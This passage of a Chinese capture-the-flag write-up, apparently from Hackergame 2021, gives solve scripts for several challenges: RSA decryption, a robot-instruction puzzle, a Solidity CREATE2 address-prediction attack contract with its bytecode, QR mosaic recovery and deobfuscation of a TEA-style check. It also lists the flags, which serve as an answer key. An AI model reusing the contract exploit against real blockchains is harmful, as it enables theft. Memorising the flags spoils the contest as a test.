y=5591130088089053683141520294620171646179623062803708281023766040254675625012293743465254007970358536660934858789388093688621793201658889399155357407224541324547522479617669812322262372851929223461622559971534394847970366311206823328200747893961649255426063204482192349202005330622561575868946656570678176047822163692259375233925446556338917358118222905050574458037965803154233167594946713038301249145097770337253930655681648299249481985768272321820718607757023350742647019762122572886601905212830744868048802864679734428398229280780215896045509020793530842541217790352661324630048261329493088812057300480085895399922301827190211956061083460036781018660201163819104150988531352228650991733072010425499238731811243310625701946882701082178190402011133439065106720309788819
l=[x]
for i in range(9):
    l.insert(0,sympy.prevprime(l[0]))

n = 1
pn=1
for i in range(10):
    n = n * l[i]
    pn=pn*(l[i]-1)
d=gmpy2.invert(65537,pn)
print(gmpy2.powmod(y,d,n))
q=10477925992460766451892208516181598312750484426056814542870756188277177949099084361476539803367804757559880919838828678145609717295215924948786830953570263
print(sympy.nextprime(q))
```

成功得到了p和q,我们就可以解出密文了,成功得到flag。


```Python
import gmpy2
import struct
from Crypto.Util.number import *
p = 10569944080090591401315432556965818857327680380269154543273468441025963038065648915158194147019839932524599260058098616377893091051396090650574162446875263
q = 10477925992460766451892208516181598312750484426056814542870756188277177949099084361476539803367804757559880919838828678145609717295215924948786830953571811
e = 65537
d = gmpy2.invert(e,(p-1)*(q-1))
print(d)
c = 110644875422336073350488613774418819991169603750711465190260581119043921549811353108399064284589038384540018965816137286856268590507418636799746759551009749004176545414118128330198437101472882906564195341277423007542422286760940374859966152871273887950174522820162832774361714668826122465471705166574184367478
x=int(gmpy2.powmod(c,d,p*q))
print(long_to_bytes(x))
f=open("flag.txt","wb")
f.write(long_to_bytes(x))
f.close()
```

```flag
flag{CRYPT0_1s_Interesting!}
```
<br>

# 13.赛博厨房

## Level 0

**分类:General 分值:100 完成人数:483**




**[解题过程]**

这题就比较轻松了,只需要写指令让机器人按正确的顺序将菜品放入锅中即可。菜谱的顺序会随着程序集的内容的不同而变化,但本关情况只有四种`(0,0),(0,1),(1,0),(1,1)`,直接一次写好针对每种情况的指令即可。按情况执行,成功得到flag。

```txt
(1,0)
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向上 1 步
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向上 1 步

(0,1)
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向上 1 步
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向上 1 步

(0,0)
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向上 1 步
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向上 1 步

(1,1)
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向上 1 步
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向上 1 步
```


```flag
flag{level0_9d132008f193_9fa0ab3aed}
```
<br>

## Level 1

**分类:General 分值:100 完成人数:437**



**[解题过程]**

可以看到菜谱共有73个0,不会变化,但硬写的话行数会超过限制,所以只能借助"如果手上的物品大于等于 n 向上跳转 m 行
,如果手上的物品大于等于 n 向下跳转 m 行"的指令执行循环操作。

```txt
向右 1 步
拿起 73 个物品
向下 1 步
向左 1 步
如果手上的物品大于等于 1 向下跳转 1 行
放下 1 个物品
如果手上的物品大于等于 1 向上跳转 2 行
```

执行后成功得到flag。


```flag
flag{level1_212d794167df_9fa0ab3aed}
```
<br>

# 20.链上预言家

## 预言已知

**分类:General 分值:200 完成人数:13**


[附件](file/hackergame2021/predict.zip)

**[解题过程]**

这题异常难受啊,有解出两问的能力但是不知道如何在合约里读另一个合约的非public变量,但是由于是私有链,又没法用`web3.eth.getStorageAt()`,搜遍了问题看遍了文档也没找到解决办法,遗憾失分。

打开判题终端发现是要输入合约的`bytecode`,打开附件浏览一遍题目代码,得知是部署在私有链上,合约1的seed变量是`public`,可以通过另一个合约直接调用,那么通过`CREATE2`的算法,可以提前算出合约的地址。编写攻击合约的代码,读目标合约的seed变量,而`init_code`需要通过合约1中Dummy合约的`bin-runtime`,也就是运行时字节码(而不是`bin`)来`keccak256`一下才能得到预期解,Solidity好像算不对,我就提出来用Python计算了。

最后编译攻击合约,将字节码粘贴到判题终端,成功得到flag。注意编译要使用题给的脚本进行,否则可能会出错。


攻击合约代码:

```Solidity
pragma solidity =0.8.9;

import './challenge1.sol';

contract Hack1{
    function predict(address challenge) external returns (address){
        Challenge cha=Challenge(challenge);
        address predictedAddress = address(uint160(uint(keccak256(abi.encodePacked(
            bytes1(0xff),
            challenge,
            cha.seed(),                     
            bytes32(0xfa9e82ddd8dbc9204f2d4547201e19c63d0c253a92ff97cc56ab55aff8eeb51e)
        )))));

        return predictedAddress;
    }
}
```

编译合约后:

```JSON
[
    "608060405234801561001057600080fd5b5061039f806100206000396000f3fe608060405234801561001057600080fd5b506004361061002b5760003560e01c8063901b96e714610030575b600080fd5b61004a600480360381019061004591906101ab565b610060565b60405161005791906101e7565b60405180910390f35b600080829050600060ff60f81b848373ffffffffffffffffffffffffffffffffffffffff16637d94792a6040518163ffffffff1660e01b815260040160206040518083038186803b1580156100b457600080fd5b505afa1580156100c8573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906100ec9190610238565b7ffa9e82ddd8dbc9204f2d4547201e19c63d0c253a92ff97cc56ab55aff8eeb51e60001b604051602001610123949392919061031b565b6040516020818303038152906040528051906020012060001c90508092505050919050565b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b60006101788261014d565b9050919050565b6101888161016d565b811461019357600080fd5b50565b6000813590506101a58161017f565b92915050565b6000602082840312156101c1576101c0610148565b5b60006101cf84828501610196565b91505092915050565b6101e18161016d565b82525050565b60006020820190506101fc60008301846101d8565b92915050565b6000819050919050565b61021581610202565b811461022057600080fd5b50565b6000815190506102328161020c565b92915050565b60006020828403121561024e5761024d610148565b5b600061025c84828501610223565b91505092915050565b60007fff0000000000000000000000000000000000000000000000000000000000000082169050919050565b6000819050919050565b6102ac6102a782610265565b610291565b82525050565b60008160601b9050919050565b60006102ca826102b2565b9050919050565b60006102dc826102bf565b9050919050565b6102f46102ef8261016d565b6102d1565b82525050565b6000819050919050565b61031561031082610202565b6102fa565b82525050565b6000610327828761029b565b60018201915061033782866102e3565b6014820191506103478285610304565b6020820191506103578284610304565b6020820191508190509594505050505056fea26469706673582212203baf54f09fc05137a2cfb6e51827526f6b15da083885642d090f1e54242ad14764736f6c63430008090033",
    [
        {
            "inputs": [
                {
                    "internalType": "address",
                    "name": "challenge",
                    "type": "address"
                }
            ],
            "name": "predict",
            "outputs": [
                {
                    "internalType": "address",
                    "name": "",
                    "type": "address"
                }
            ],
            "stateMutability": "nonpayable",
            "type": "function"
        }
    ]
]
```

攻击合约字节码

```Bytecode
608060405234801561001057600080fd5b5061039f806100206000396000f3fe608060405234801561001057600080fd5b506004361061002b5760003560e01c8063901b96e714610030575b600080fd5b61004a600480360381019061004591906101ab565b610060565b60405161005791906101e7565b60405180910390f35b600080829050600060ff60f81b848373ffffffffffffffffffffffffffffffffffffffff16637d94792a6040518163ffffffff1660e01b815260040160206040518083038186803b1580156100b457600080fd5b505afa1580156100c8573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906100ec9190610238565b7ffa9e82ddd8dbc9204f2d4547201e19c63d0c253a92ff97cc56ab55aff8eeb51e60001b604051602001610123949392919061031b565b6040516020818303038152906040528051906020012060001c90508092505050919050565b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b60006101788261014d565b9050919050565b6101888161016d565b811461019357600080fd5b50565b6000813590506101a58161017f565b92915050565b6000602082840312156101c1576101c0610148565b5b60006101cf84828501610196565b91505092915050565b6101e18161016d565b82525050565b60006020820190506101fc60008301846101d8565b92915050565b6000819050919050565b61021581610202565b811461022057600080fd5b50565b6000815190506102328161020c565b92915050565b60006020828403121561024e5761024d610148565b5b600061025c84828501610223565b91505092915050565b60007fff0000000000000000000000000000000000000000000000000000000000000082169050919050565b6000819050919050565b6102ac6102a782610265565b610291565b82525050565b60008160601b9050919050565b60006102ca826102b2565b9050919050565b60006102dc826102bf565b9050919050565b6102f46102ef8261016d565b6102d1565b82525050565b6000819050919050565b61031561031082610202565b6102fa565b82525050565b6000610327828761029b565b60018201915061033782866102e3565b6014820191506103478285610304565b6020820191506103578284610304565b6020820191508190509594505050505056fea26469706673582212203baf54f09fc05137a2cfb6e51827526f6b15da083885642d090f1e54242ad14764736f6c63430008090033
```

<br>


```flag
flag{CRE4TE2_c0ntr4ct_Addr_1s_pr3d1ct4ble_430609201f}
```
<br>

# 23.马赛克

**分类:General 分值:300 完成人数:62**


[附件](file/hackergame2021/mosaic.zip)

**[解题过程]**

阅读题目代码,通过逆向马赛克的生成函数,逐块将马赛克还原(由于取了均值,损失了部分信息,又由于每块马赛克23像素,每块小二维码11像素,故1小块马赛克必影响3小块二维码,需要根据周围像素写暴力猜测),由于二维码的纠错等级较高,还原得差不多就能扫出来了。

```Python
import cv2
import math
import numpy as np
import os

X, Y = 103, 137     # 马赛克左上角位置(单位为像素)
N = 20              # 马赛克块的数量（共N*N块）
BOX_SIZE = 23       # 每个马赛克块的大小（边长，单位为像素）
PIXEL_SIZE = 11     # 二维码每个块的大小（边长，单位为像素）

img = cv2.imread('pixelated_qrcode.bmp', cv2.IMREAD_GRAYSCALE)
mask = cv2.imread('mask.png', cv2.IMREAD_UNCHANGED)
correct = np.zeros((N + 2, N + 2), dtype=np.uint8)
correct[0, ...] = correct[N + 1, ...] = 1
correct[..., 0] = correct[..., N + 1] = 1

# 每个 box 一定跨越 3 个 pixel
# box 颜色 = pixel 颜色 * pixel 颜色占比（已知） 加权平均


def fix_colors(x_raw, y_raw, first=True):
    if correct[x_raw + 1, y_raw + 1]:
        return
    x = X + x_raw * BOX_SIZE
    y = Y + y_raw * BOX_SIZE
    mask_ar = mask[x: x + BOX_SIZE, y: y + BOX_SIZE]
    alpha = np.where(mask_ar[..., 3] == 255, 1, 0)
    x_weight = [PIXEL_SIZE - x % PIXEL_SIZE, PIXEL_SIZE, (x + BOX_SIZE) % PIXEL_SIZE]
    y_weight = [PIXEL_SIZE - y % PIXEL_SIZE, PIXEL_SIZE, (y + BOX_SIZE) % PIXEL_SIZE]
    if not x_weight[2]:
        x_weight[2] = 11
    if not y_weight[2]:
        y_weight[2] = 11
    color = img[x + BOX_SIZE // 2, y + BOX_SIZE // 2]
    answers = 0
    ar_out = None
    for colors_bin in range(1 << 9):
        colors = [ch == '1' for ch in f'{colors_bin:0>9b}']
        ar = np.zeros((BOX_SIZE, BOX_SIZE), dtype=np.uint8)
        for i, j in np.ndindex(3, 3):
            if colors[i * 3 + j]:
                ar[sum(x_weight[:i]): sum(x_weight[:i + 1]), sum(y_weight[:j]): sum(y_weight[:j + 1])] = 255
        mean = math.floor(ar.mean())
        if mean == color and np.all(ar * alpha == mask_ar[..., 0] * alpha):
            ar_out = ar.copy()
            answers += 1
            if not first:
                if x % 11 and correct[x_raw, y_raw + 1] and np.any(img[x - 1, y: y + BOX_SIZE] != ar[0]):  # 上
                    continue
                if y % 11 and correct[x_raw + 1, y_raw] and np.any(img[x: x + BOX_SIZE, y - 1] != ar[..., 0]):  # 左
                    continue
                if (x + BOX_SIZE) % 11 and correct[x_raw + 2, y_raw + 1] and np.any(img[x + BOX_SIZE, y: y + BOX_SIZE] != ar[-1]):  # 下
                    continue
                if (y + BOX_SIZE) % 11 and correct[x_raw + 1, y_raw + 2] and np.any(img[x: x + BOX_SIZE, y + BOX_SIZE] != ar[..., -1]):  # 右
                    continue
                if not (correct[x_raw, y_raw + 1] or correct[x_raw + 1, y_raw] or correct[x_raw + 1, y_raw + 2] or correct[x_raw + 2, y_raw + 1]):
                    continue
                img[x: x + BOX_SIZE, y: y + BOX_SIZE] = ar
                correct[x_raw + 1, y_raw + 1] = 1
    if first and answers == 1:
        img[x: x + BOX_SIZE, y: y + BOX_SIZE] = ar_out
        correct[x_raw + 1, y_raw + 1] = 1


def main():
    for x, y in np.ndindex(N, N):
        fix_colors(x, y)
    max_near = 4
    trial = 0
    while max_near:
        print('max_near:', max_near)
        has_equals = False
        for x, y in np.ndindex(N, N):
            if correct[x + 1, y + 1]:
                continue
            near = correct[x, y + 1] + correct[x + 1, y] + correct[x + 2, y + 1] + correct[x + 1, y + 2]
            if near >= max_near:
                has_equals = True
                fix_colors(x, y, False)
        if not has_equals:
            max_near -= 1
        trial += 1
        if trial >= 100:
            break


if __name__ == '__main__':
    main()
    cv2.imshow('Fixed', img)
    cv2.waitKey(0)
    cv2.imwrite('output.png', img)
```


```flag
flag{QRcodes_are_pixel_arts_EvSwCSAWtP}
```
<br>

# 24.minecRaft

**分类:Web 分值:300 完成人数:136**


**[解题过程]**

这题通过观察`页面内嵌的script`发现判断逻辑,找到[flag.js](file/hackergame2021/flag.js),发现是经过混淆的代码,我是手工替换来解混淆的。


解混淆后的flag.js:

```Javascript
const mofa3 = mofa;
(function (keyfunc, number) {
  const mofa2 = mofa,
    key2 = keyfunc();
  while (true) {
    try {
      const number2 =
        (-parseInt(mofa2(433)) / 1) * (parseInt(mofa2(429)) / 2) +
        (-parseInt(mofa2(434)) / 3) * (parseInt(mofa2(438)) / 4) +
        (-parseInt(mofa2(430)) / 5) * (-parseInt(mofa2(436)) / 6) +
        (parseInt(mofa2(427)) / 7) * (parseInt(mofa2(431)) / 8) +
        parseInt(mofa2(437)) / 9 +
        -parseInt(mofa2(435)) / 10 +
        (-parseInt(mofa2(425)) / 11) * (-parseInt(mofa2(423)) / 12);
      if (number2 === 138248) break;
      else key2["push"](key2["shift"]());
    } catch (exception) {
      key2["push"](key2["shift"]());
    }
  }
})(keyfunc, 138248),
  //encrypt
  (String["prototype"][mofa3(424)] = function (num) {
    //1356853149054377
    const mofa4 = mofa3,
      list2 = new Array(2),
      list4 = new Array(4);
    let str1 = "";
    plaintext = escape(this); //敲出来的字符
    for (var tempi1 = 0; tempi1 < 4; tempi1++)
      list4[tempi1] = Str4ToLong(
        num[mofa4(422)](tempi1 * 4, (tempi1 + 1) * 4) //slice
      ); //list4=["1356","8531","4905","4377"].tolong
    for (
      tempi1 = 0;
      tempi1 < plaintext[mofa4(440)]; //length 32
      tempi1 += 8
    ) {
      (list2[0] = Str4ToLong(plaintext["slice"](tempi1, tempi1 + 4))),
        (list2[1] = Str4ToLong(plaintext[mofa4(422)](tempi1 + 4, tempi1 + 8))),
        code(list2, list4),
        (str1 += LongToBase16(list2[0]) + LongToBase16(list2[1]));
    } //6fbde674 819a59bf a1209256 5b4ca2a7 a11dc670 c678681d af4afb67 04b82f0c
    return str1;
  });
decrypt = function (str) {
  let str2 = "";
  let templist2 = [909456177, 825439544, 892352820, 926364468];
  for (tempi1 = 0; tempi1 < 8; tempi1 += 2) {
    let temp1 = str["slice"](tempi1 * 8, (tempi1 + 1) * 8);
    let temp2 = str["slice"]((tempi1 + 1) * 8, (tempi1 + 2) * 8);
    let templist = new Array(2);
    templist[0] = Base16ToLong(temp1);
    templist[1] = Base16ToLong(temp2);
    decode(templist, templist2);
    templist[0] = LongToStr4(templist[0]);
    templist[1] = LongToStr4(templist[1]);
    str2 += templist[0] + templist[1];
  }
  return str2;
};
function decode(codex1, codex2) {
  let codex1a0 = codex1[0],
    codex1a1 = codex1[1];
  const codenumber = 2654435769,
    codenumber32 = codenumber * 32;
  let codetemp = codenumber32;
  while (codetemp != 0) {
    (codex1a1 -=
      (((codex1a0 << 4) ^ (codex1a0 >>> 5)) + codex1a0) ^
      (codetemp + codex2[(codetemp >>> 11) & 3])),
      (codetemp -= codenumber),
      (codex1a0 -=
        (((codex1a1 << 4) ^ (codex1a1 >>> 5)) + codex1a1) ^
        (codetemp + codex2[codetemp & 3]));
  }
  (codex1[0] = codex1a0), (codex1[1] = codex1a1);
}
function mofa(mofax1, mofax2) {
  const keylist = keyfunc();
  return (
    (mofa = function (mofax3, mofanotuser) {
      mofax3 = mofax3 - 422;
      let maybeakey = keylist[mofax3];
      return maybeakey;
    }),
    mofa(mofax1, mofax2)
  );
}
function code(codex1, codex2) {
  let codex1a0 = codex1[0],
    codex1a1 = codex1[1];
  const codenumber = 2654435769,
    codenumber32 = codenumber * 32;
  let codetemp = 0;
  while (codetemp != codenumber32) {
    (codex1a0 +=
      (((codex1a1 << 4) ^ (codex1a1 >>> 5)) + codex1a1) ^
      (codetemp + codex2[codetemp & 3])),
      (codetemp += codenumber),
      (codex1a1 +=
        (((codex1a0 << 4) ^ (codex1a0 >>> 5)) + codex1a0) ^
        (codetemp + codex2[(codetemp >>> 11) & 3]));
  }
  (codex1[0] = codex1a0), (codex1[1] = codex1a1);
}

function Str4ToLong(stlx1) {
  const mofa5 = mofa3;
  let stltemp = 0;
  for (let tempi2 = 0; tempi2 < 4; tempi2++)
    stltemp |= stlx1[mofa5(428)](tempi2) << (tempi2 * 8);
  return isNaN(stltemp) ? 0 : stltemp;
}
function LongToBase16(ltbx1) {
  let ltbstr = "";
  for (let tempi3 = 3; tempi3 >= 0; tempi3--) {
    let ltbtemp = ((ltbx1 >> (8 * tempi3)) & 255)["toString"](16);
    if (parseInt("0x" + ltbtemp) <= 15) ltbtemp = "0" + ltbtemp;
    ltbstr += ltbtemp;
  }
  return ltbstr;
}
function Base16ToLong(btlx1) {
  const mofa6 = mofa3;
  let btltemp = 0;
  for (let tempi4 = 0; tempi4 < 8; tempi4 += 2) {
    let btltemp2 = parseInt("0x" + btlx1[mofa6(422)](tempi4, tempi4 + 2));
    btltemp = (btltemp << 8) + btltemp2;
  }
  return btltemp;
}
function keyfunc() {
  const key = [
    "encrypt",
    "33MGcQht",
    "6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c",
    "14021KbbewD",
    "charCodeAt",
    "808heYYJt",
    "5DlyrGX",
    "552oZzIQH",
    "fromCharCode",
    "356IjESGA",
    "784713mdLTBv",
    "2529060PvKScd",
    "805548mjjthm",
    "844848vFCypf",
    "4bIkkcJ",
    "1356853149054377",
    "length",
    "slice",
    "1720848ZSQDkr",
  ];
  keyfunc = function () {
    return key;
  };
  return keyfunc();
}
function LongToStr4(ltsx1) {
  const mofa7 = mofa3,
    ltstemp = String[mofa7(432)](
      ltsx1 & 255,
      (ltsx1 >> 8) & 255,
      (ltsx1 >> 16) & 255,
      (ltsx1 >> 24) & 255
    );
  return ltstemp;
}
function gyflagh(gyx1) {
  const mofa8 = mofa3;
  let gytemp = gyx1[mofa8(424)](mofa8(439));
  if (gytemp === mofa8(426)) return true; //gyx1['encrypt'](1356853149054377) === 6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c
  return false;
}
```

解完混淆后通过`gyflagh()`得知若输入的字符串经过运算后和密文相等则过关,那么我们通过解出密文得到的明文应该就是flag,逻辑写起来有些复杂,本质上就是转换和解密的工作了,自行领会一下吧(雾。

将`decode`和`decrypt`的代码粘贴到控制台,之后调用`decrypt("6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c")`就可以得到flag了。


```flag
flag{McWebRE_inMlnCrA1t_3a5y_1cIuop9i}
```
<br>